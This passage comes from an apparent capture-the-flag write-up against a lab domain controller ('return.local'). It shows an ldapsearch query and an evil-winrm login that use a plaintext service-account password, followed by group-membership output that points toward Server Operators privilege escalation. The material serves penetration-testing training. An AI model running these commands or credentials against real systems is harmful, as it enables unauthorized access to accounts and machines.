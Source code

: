 i check C$ since we have write and read permissions... and there it is under C:\Users\svc-printer\Desktop -> user.txt, ill mget that and:
```
cat user.txt
7e0dd5223610**********
```

USER PWNED

---

### Priv Esc

Before we go back to the smb shares:
```
ldapsearch -x -H ldap://printer.return.local -D 'svc-printer@return.local' -w '1edFg43012!!' -b 'dc=return,dc=local' '(memberOf=*)' memberOf sAMAccountName
```

i will try winrm in as svc-printer as we havent tried that yet lol:
```
evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
```

worked! nice!

```
whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

